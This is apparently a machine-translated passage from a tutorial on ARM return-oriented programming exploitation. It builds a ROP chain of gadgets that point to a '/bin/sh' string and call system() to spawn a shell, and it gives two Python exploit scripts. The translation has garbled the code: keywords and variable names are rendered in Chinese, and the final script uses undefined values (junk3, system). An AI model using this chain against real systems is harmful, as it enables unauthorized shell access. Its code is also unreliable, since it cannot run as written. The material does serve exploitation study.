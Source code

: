 *因此，第一步完成后，这是一个加法指令，增加 8 到 sp。*

*下一步是将我们下一个添加小工具的地址放入 pc，我们有 pop 指令。因此 pop {r7，pc }将从堆栈顶部向 r7 和 pc 弹出两个值。让我们修改我们的漏洞，以指向下一个小工具*

> *#!/usr/bin/python
> 导入结构*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x 00031874)# ldr gadget
> junk 1 = " AAAA "
> binsh = struct . pack("<I "，base+0x 11 db 20–0x 80)#/bin/sh string
> junk 2 = " AAAA "
> gadget 2 = struct . pack("<I "，base+0x 00 fe910)#添加小工具*
> 
> *印刷品(垃圾+小配件 1+垃圾 1+垃圾箱+垃圾 2+小配件 2)*

*在 binsh 之后，我们提供了另一个 junk2，它将一个垃圾值“AAAA”弹出到 r7，下一个值是我们的 add 小工具的地址，它将弹出到 pc，然后 pc 将指向 add 小工具，add 小工具将 pc 中的值重新调整为 0xB6F91B20，它指向我们的“/bin/sh”字符串。让我们看看这个*

*现在一切都准备好了，剩下唯一要做的就是调用系统函数来获取我们的 shell。*

*![](img/2bb53b426120d666e110487d24bbd5ea.png)*

*该弹出操作将堆栈中的两个值弹出到 r3 和 pc 中。像往常一样，我们将插入一些垃圾值到 r3，并将系统的地址放入 pc。让我们做最后一次。我希望你复制了系统函数的地址:p*

> *#!/usr/bin/python
> 导入结构*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x 00031874)# ldr gadget
> junk 1 = " AAAA "
> binsh = struct . pack("<I "，base+0x 11 db 20–0x 80)#/bin/sh string
> junk 2 = " AAAA "
> gadget 2 = struct . pack("<I "，base+0x 00 Fe 910)# add gadget【小工具*
> 
> *打印(垃圾+小工具 1+垃圾 1+垃圾+垃圾 2+小工具 2+垃圾 3+系统)*
